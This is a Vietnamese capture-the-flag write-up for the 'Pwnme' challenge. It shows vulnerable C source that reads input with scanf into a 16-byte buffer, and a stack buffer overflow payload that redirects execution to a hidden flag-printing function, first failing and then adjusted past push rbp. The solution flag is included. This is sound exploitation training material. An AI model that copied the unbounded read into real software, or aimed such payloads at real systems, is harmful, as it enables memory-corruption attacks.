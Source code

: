 # Pwnme

![image](https://github.com/anhshidou/FUSec2024/assets/81132394/282477ad-19de-42ee-88db-810c0d42169c)

----
Đầu tiên khi đọc bài, ta biết luôn phải sử dụng buffer overflow. Mình sẽ tải thử cả 2 file được cung cấp về

**Source Code**
```
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void hacked()
{
    FILE *file = fopen("flag.txt", "r");
    if (file == NULL)
    {
        printf("Could not open file flag.txt\n");
        return;
    }

    char buffer[256]; // Buffer to hold the file contents

    printf("Flag content:\n");
    while (fgets(buffer, sizeof(buffer), file) != NULL)
    {
        printf("%s", buffer);
    }

    fclose(file);
    printf("\nThis function is TOP SECRET! How did you get in  :O\n");
}

void register_name()
{
    char buffer[16];
    

    printf("Name:\n");
    fflush(stdout);
    scanf("%s", buffer);
    printf("Hi there, %s\n", buffer);   
}

int main()
{
    
    register_name();

    return 0;
}
```

Với source code này, mình nhận ra chúng ta phải sử dụng buffer overflow để gọi function `hacked`. Bây giờ mình sử dụng ida kiểm tra xem địa chỉ lưu trữ function `hacked` ở đâu

![image](https://github.com/anhshidou/FUSec2024/assets/81132394/c716d748-1b42-4650-86b4-f6bcd856e6a4)

Nó ở địa chỉ 400707. Mình sẽ sử dụng lệnh `file` để kiểm tra xem nó là **MSB** hay **LSB**

![image](https://github.com/anhshidou/FUSec2024/assets/81132394/e9ce7445-8c1e-4a11-9008-fb6d5f96ccf9)

Vậy ta sẽ có payload như sau

`100000000000000000000000\x07\x07\x40`

![image](https://github.com/anhshidou/FUSec2024/assets/81132394/3d895a19-f5d8-409d-91b4-e99523547b42)

Thử nhập nó lên server

![image](https://github.com/anhshidou/FUSec2024/assets/81132394/3be66ff6-b049-4f72-881b-a2a89a769c78)

Có vẻ như nó lỗi

Mình quay lại ida để xem thì phát hiện ra ở địa chỉ đó, lệnh của nó là `push rbp`, mà tại đây base pointer của ta đang chưa có nên nó xảy ra lỗi. Mình thử đổi lại payload sao cho nó chỉ về `mov rbp, rsp`

`100000000000000000000000\x08\x07\x40`

![image](https://github.com/anhshidou/FUSec2024/assets/81132394/0ff3d3d5-e174-4c32-a53c-14aebba71262)

Cúng tìm hiểu thêm được lỗi `Segmentation fault (core dumped)` tức là chạy nhầm trên vùng nhớ nào đó, hoặc tràn bộ đệm \(Source: [https://daynhauhoc.com/](https://daynhauhoc.com/t/loi-segmentation-fault-core-dumped-la-loi-gi/11210)\)

Chạy thử payload này lên server

![image](https://github.com/anhshidou/FUSec2024/assets/81132394/cd115bd7-4940-48d6-b751-3155d0c5fa83)

Flag: `FUSec{On35H00tOnEkil1}`


